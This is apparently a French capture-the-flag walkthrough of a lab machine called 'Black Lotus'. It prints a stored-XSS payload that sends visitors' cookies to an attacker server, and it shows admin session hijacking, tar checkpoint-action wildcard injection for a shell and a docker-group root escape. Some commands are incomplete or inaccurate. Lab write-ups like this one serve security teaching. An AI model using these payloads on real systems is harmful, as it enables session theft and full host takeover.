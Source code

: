 # Black Lotus CTF Walkthrough

## Sommaire

1. [XSS & Cookie Theft](#1-xss--cookie-theft)
2. [Accès au Message de l’Admin](#2-accès-au-message-de-ladmin)
3. [Connexion SSH](#3-connexion-ssh)
4. [Escalade de privilèges via tar avec hacker](#4-escalade-de-privilèges-via-tar-avec-hacker)
5. [Exploitation des vulnérabilités de tar](#5-exploitation-des-vulnérabilités-de-tar)
6. [Docker Escape](#6-docker-escape)

## 1. XSS & Cookie Theft

On commence par créer un compte utilisateur et se connecter au site.

Ensuite, on crée une nouvelle liste avec le payload XSS suivant :

```html
<script>document.location='http://10.8.92.59:5555/steal.php?c='+document.cookie</script>
```

Ce script envoie les cookies de toute personne visitant la page vers notre serveur.

Une fois notre propre cookie reçu, on **signale la page** pour que l'administrateur la visite (simulation d'une vulnérabilité **Stored XSS**). Lorsque l’admin ouvre la page, son cookie est également envoyé à notre serveur.

On récupère alors le **cookie admin** et on le remplace dans notre navigateur avec une extension ou via les outils de développement (par exemple avec `document.cookie` dans la console).

## 2. Accès au Message de l’Admin

Une fois authentifié comme admin, un message s’affiche :

> From admin  
> Hi there you h4ck3rz, so you want the Black Lotus? Try me then. SSH to the machine with those creds: `guest:Bl4Ck_L07u5_N3rd`

## 3. Connexion SSH

On se connecte à la machine distante via SSH :

```bash
ssh guest@magic-town
# Mot de passe : Bl4Ck_L07u5_N3rd
```

🎉 **1er Flag accessible**

## 4. Escalade de privilèges via Tar depuis hacker

On découvre qu’on peut utiliser un binaire SUID `hacker` pour zipper un fichier :

```bash
# Depuis le compte guest
sudo -u hacker tar hacker.txt
```

Cela crée un fichier zip avec les droits de l'utilisateur `hacker`.

Ensuite, on dézippe le fichier pour obtenir la flag avec les permimission guest.

🎉 **2ème Flag accessible**

## 5. Exploitation des vulnérabilités de tar

Toujours avec `tar` on peut executer n’importe quelle commande depuis `hacker` donc on cree les fichiers:

```bash
touch '--checkpoint-action=exec=sh'
touch  '--checkpoint=1' 
touch temp.txt
```

Ce sont des fichiers piégés pour forcer une exécution de commande lors d'une archive avec `tar` :

```bash
sudo -u hacker tar 
```

Quand on utilise `tar` ces fichier nous ouvre un shell en tant que `hacker`.

## 6. Docker Escape

On remarque que `hacker` est dans le groupe docker donc on exécute un conteneur Docker :

```bash
docker run -v /:/mnt -it alpine
```

Avec ce volume monté, on a accès à tout le système depuis le conteneur.

Il suffit de chroot dans le système monté pour devenir root :

```bash
chroot /mnt
```

Et voilà, on est **root sur la machine** !

---

🎉 **3ème Flag accessible** depuis le système de fichiers root !
